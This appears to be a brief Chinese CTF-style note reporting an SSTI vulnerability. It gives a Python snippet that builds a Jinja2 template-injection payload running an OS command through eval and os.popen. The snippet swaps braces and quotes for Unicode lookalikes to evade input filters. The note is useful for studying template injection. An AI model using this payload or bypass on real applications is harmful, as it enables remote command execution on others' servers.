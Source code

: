 ![](图片/Pasted%20image%2020241222001741.png)
发现可以 存在ssti漏洞
```
"""
{ -> ︷/﹛
} -> ︸/﹜
' -> ＇
, -> ，
" -> ＂
"""
//此时的str即你要输入的payload
str = '''{{a.__init__.__globals__.__builtins__.eval("__import__('os').popen('ls').read()")}}''' # 原字符串
# 如果需要替换replace(被替换的字符,替换后的字符)
str = str.replace('{', '︷')
str = str.replace('}', '︸')
str = str.replace('\'', '＇')
str = str.replace('\"', '＂')

print(str)

```